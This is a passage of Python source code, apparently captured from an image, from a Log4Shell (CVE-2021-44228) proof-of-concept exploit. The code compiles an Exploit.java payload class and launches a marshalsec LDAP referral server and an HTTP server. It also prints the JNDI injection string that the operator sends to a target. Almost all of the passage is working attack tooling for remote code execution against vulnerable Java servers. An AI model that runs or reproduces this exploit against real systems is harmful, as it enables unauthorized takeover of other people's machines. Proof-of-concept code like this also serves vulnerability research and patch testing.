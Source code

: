 ```python
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
```